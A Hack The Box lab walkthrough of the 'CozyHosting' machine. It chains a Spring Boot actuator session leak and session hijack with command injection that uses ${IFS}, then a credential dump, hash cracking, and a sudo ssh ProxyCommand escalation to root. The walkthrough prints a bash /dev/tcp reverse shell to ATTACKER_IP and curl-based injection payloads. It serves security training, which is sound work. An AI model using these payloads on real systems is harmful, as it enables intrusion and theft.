This box is rated easy difficulty on HTB. It involves us enumerating a Spring Boot web application to find an exposed actuator endpoint which allows us to steal a user session. On the admin dashboard, a parameter in the site's configuration option is prone to command injection which lets us get a reverse shell. Once on the box, a `.jar` file contains database credentials, leading to cracking a user's hash. Abusing Sudo permissions on their account grants us the ability to execute commands as root and spawn a shell.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.129.229.88 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-10 18:09 CDT
Nmap scan report for 10.129.229.88
Host is up (0.054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.32 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

Default scripts show that the site redirects us to `cozyhosting.htb` which I'll add to my `/etc/hosts` file. Not a whole lot we can do on that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the website.

```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /opt/SecLists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index                   [Status: 200, Size: 12706, Words: 4263, Lines: 285, Duration: 1427ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 1479ms]
admin                   [Status: 401, Size: 97, Words: 1, Lines: 1, Duration: 236ms]
logout                  [Status: 204, Size: 0, Words: 1, Lines: 1, Duration: 99ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 268ms]

:: Progress: [220560/220560] :: Job [1/1] :: 483 req/sec :: Duration: [0:10:31] :: Errors: 0 ::
```

Checking out the landing page shows that the organization offers a place to host cloud projects on their servers. The page is mostly static, but the contact section contains an email for their support staff at `info@cozyhosting.htb`.



The services section describe a monitoring dashboard as well as an administrative interface for hosts. We'll probably want to gain access to someone's account via the login panel, however I'd like to enumerate other technology and possible users before carrying out a brute-force attack since it's usually my last resort.

## Exploitation
My scans picked up an `/error` page which acts as the site's 404 response, but it responds strange to me. Heading to any page that doesn't exist throws a Whitelabel Error Page, which I had come across before. The response type and status code are still displayed and I decide to do some more digging on why this happened.



A quick Google search reveals that this page is the default response for Spring Boot applications whenever an unhandled error or exception occurs. As per their information page - Spring Boot is an open-source, Java-based framework that makes it easy to create standalone, production-grade applications with minimal configuration. It is built on top of the comprehensive Spring Framework and uses an "opinionated" approach to simplify development and deployment.

### Spring Boot Acutators
Some common ways to exploit these types of applications include general web vulnerabilities (e.g. SQL Injection, XSS, etc.), outdated dependencies, or misconfigured Actuator endpoints. Spring Boot Actuators serve as production-ready features for monitoring and managing a running application, primarily through a set of built-in HTTP endpoints or JMX (Java Management Extensions). If an attacker were to have direct access to these, it could expose information such as API keys, database credentials, and user data.

Sounds promising. Running another scan with a wordlist that contains actuator endpoints brings forth a few options for us to play around with. I refer to [Spring Boot's documentation page](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html) to gather more information about these endpoints.

```
$ ffuf -u http://cozyhosting.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/quickhits.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cozyhosting.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/quickhits.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 315ms]
error                   [Status: 500, Size: 73, Words: 1, Lines: 1, Duration: 109ms]
login                   [Status: 200, Size: 4431, Words: 1718, Lines: 97, Duration: 76ms]
actuator                [Status: 200, Size: 634, Words: 1, Lines: 1, Duration: 84ms]
actuator/sessions       [Status: 200, Size: 95, Words: 1, Lines: 1, Duration: 109ms]
actuator/env            [Status: 200, Size: 4957, Words: 120, Lines: 1, Duration: 190ms]
actuator/health         [Status: 200, Size: 15, Words: 1, Lines: 1, Duration: 184ms]
actuator/mappings       [Status: 200, Size: 9938, Words: 108, Lines: 1, Duration: 173ms]
actuator/beans          [Status: 200, Size: 127224, Words: 542, Lines: 1, Duration: 221ms]
:: Progress: [2565/2565] :: Job [1/1] :: 338 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

The most sensitive one would be the `/env` page as it exposes properties from Spring's ConfigurableEnvironment and could disclose user credentials. Unfortunately for us, it's subject to sanitization and navigating to it shows that the developers have configured everything correctly.



### Session Stealing
Another interesting one we have access to is the `/sessions` page, which holds user's session IDs in store. Displaying it gives us just one value for the user `kanderson`.



By replacing our original `JSESSION` cookie with the value of this new one, the site grants us a valid session as that user and we can now access their administrator dashboard.



### Command Injection
The only notable thing on this page is a form to update connection settings so that CozyHosting will automatically patch our host. As with all fields allowing for user-supplied input, I start injecting payloads to test if this function is vulnerable.



A bit of trial and error shows that we must provide a valid hostname, but the username field looks prone to command injection. The error shows that the second argument (id) was used in a separate command which couldn't be found.



Knowing this, we can try to upload a reverse shell to the box with a simple curl command since all these filters make it difficult to throw a bash one liner in there without it getting shot down. I'll also add a semicolon and comment at the end so we can get rid of the `@localhost` portion. My reverse shell payload is a simple bash command to force a TCP connection towards my attacking IP on port 9001.

```
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/9001 0>&1
```



Looks like it's also filtering out whitespaces in the username field. Since we already know that it's using Bash from the first error, we can find a suitable replacement that fits that environment. Turns out the `${IFS}` variable (Internal Field Separator) can be utilized to split strings and will act similar to a normal space or tab.

After replacing all spaces in my previous payload with that shell var, no error is thrown and the server successfully downloads the shell script. I swapped to uploading the shell to `/tmp` to ensure that we'll have write access to the directory.

```
cbev;curl${IFS}http://ATTACKER_IP/revy.sh${IFS}-o${IFS}/tmp/revy.sh;#
```



All that's left is to fabricate another command that will execute that file and stand up a Netcat listener to catch the incoming connection.

```
Hostname = localhost
Username = cbev;/bin/bash${IFS}/tmp/revy.sh;#
```



I upgrade and stabilize my shell with the typical `Python import pty` method and start internal enumeration to escalate privileges.

## Privilege Escalation
The only file present in the application's root directory was a `.jar` file, which is used to host the site along with its configurations. The only other user on the box besides root was named Josh, so I'll primarily focus on pivoting to his account.

### Dumping Postgres DB
I transfer this massive archive over to my local machine via a Python web server and start parsing it for hardcoded credentials. JAR files are simply Java Archives that can be unzipped with any normal tool such as `7z` or the `unzip` utility.

```
mkdir output & cd output
7z x ../cloudhosting-0.0.1.jar
grep -iR pass . 2>/dev/null
```



Whilst searching for strings that contained passwords, I discover that the spring.datasource.password property held a secure password which could be used to access a database. Upon further inspection on that file, we can see exactly how the database is being accessed by the Spring Boot application.

```
$ cat BOOT-INF/classes/application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=[REDACTED]
```

Another way to go about finding this is to decompile it using open-source tools. I download the Java Decompiler Graphical User Interface (jd-gui) from this [Github repo](https://java-decompiler.github.io/) and start it up with `java -jar jd-gui-1.6.6.jar`. After opening the cloudhosting JAR file inside the GUI, we can locate the database credentials under `application.properties` in htb.cloudhosting.



It's a bit more work, but beats having to grep for seemingly random strings in a sea of files. Either way, we'll want to authenticate to the postgres DB on the box using those credentials; I use the psql tool already installed on the host for this next step. 

```
app@cozyhosting:/tmp$ psql -U postgres -h localhost
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \list
```



Listing the available databases show just one intriguing option named after the box. There's a hosts and users table inside, which should hold user credentials in the form of hashes or plaintext passwords.

```
postgres-# \c cozyhosting
cozyhosting-# \dt
```



### Cracking User Hash
Nothing interesting resides in the hosts table, but users gives us two hashes for kanderson and an admin (most likely Josh).

```
cozyhosting=# select * from users;
```



Sending them over to Hashcat or JohnTheRipper to get their plaintext variants crack very fast. 



Attempting to reuse that password for Josh over SSH works and we grab a proper shell on the box. Now we can begin looking for routes to escalate privileges to root.

### Abusing Sudo Permissions
Listing Sudo privileges shows that Josh has the capability to run the SSH binary as root user with a password. The presence of a wildcard after it just means that we can execute it with any parameters.



Attempting to just SSH on localhost and spawn a Bash shell won't work as we still need to provide a password. [GTFOBins](https://gtfobins.org/gtfobins/ssh/#shell) has a great method of escalating privileges by using the `ProxyCommand` option, which allows us to execute commands as root user and create a new shell.



Grabbing the final flag under `/root/root.txt` completes this challenge. This box was relatively easy, but if your enumeration was lacking, it could prove quite a challenge trying to exploit the webapp. I hope this was helpful to anyone following along or stuck and happy hacking!
